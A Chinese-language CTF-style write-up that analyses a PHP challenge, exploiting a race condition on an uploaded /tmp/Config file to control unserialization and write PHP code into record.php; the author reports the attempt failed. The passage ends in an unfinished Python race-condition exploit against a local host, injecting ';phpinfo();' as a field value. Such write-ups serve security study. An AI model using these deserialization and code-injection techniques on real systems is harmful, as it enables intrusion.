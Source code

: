 ![image-20240425165937943](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-897f10d823037a0442975a1967903acb051784c2.png)

### 如何竞争

先看`editconf`的过程，先是反序列化的`$Config`变量要满足条件进入if，然后实例化Admin，然后接受参数，最后进入editconf：

![image-20240425193557508](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-0bc672dc5ef5d1b5a71bd75e4c06d11b7e11c1dc.png)

看`editconf`函数，注意到在写入覆盖`/tmp/Config`文件时，会进行一个upload，跟踪进去；

![image-20240425193730314](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-7fb2b2bd792b06680f7d7f624ec8962463ced160.png)

发现可以上传文件到`/tmp`目录，同时名字和内容没有限制，因此我们可以覆盖`Config`文件，这里与上面的`file_put_contents`就有着一定的时间差；

![image-20240425193839150](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-9749c64957aeab3b3e167843bc09ddc077bbcd75.png)

然后，如何序列化这个Config文件呢，很简单，index.php一开始就是获取这个文件进行反序列化；

![image-20240425194029719](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-b8e30fbf49f50584177977f4dfbf5c823726191b.png)

因此，综上所述，只要合理利用这个时间差，那么我们就可以自定义反序列化任何内容；

这里目的最终还是调用到`Log::__toString`魔术方法，将php代码写入到`record.php`，思路是调用到`Admin::showconf`文件的字符串拼接，但是始终绕不过`Admin::__wakeup`，所以失败了?。

![image-20240425194415638](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-6080a362b772a59fa7316619edcdb261314a453c.png)

### 尝试条件竞争的exp

```php
import base64  
import sys,os  
​  
import requests  
import threading  
​  
url = "http://127.0.0.1/index.php"  
​  
def reset():  
    params={  
        "uname":"admin",  
        "passwd":"1q2w3e"  
    }  
    data={  
        "m":"reset"  
    }  
    requests.post(url=url,params=params,data=data)  
​  
def write\_php():  
    params={  
        "uname":"admin",  
        "passwd":"1q2w3e"  
    }  
    data={  
        "m":"edit",  
        "nickname":";phpinfo();",  
        "sex":"w1nd",  
        "mail":"@",  
        "telnum":"01"  
    }  
    files={  
```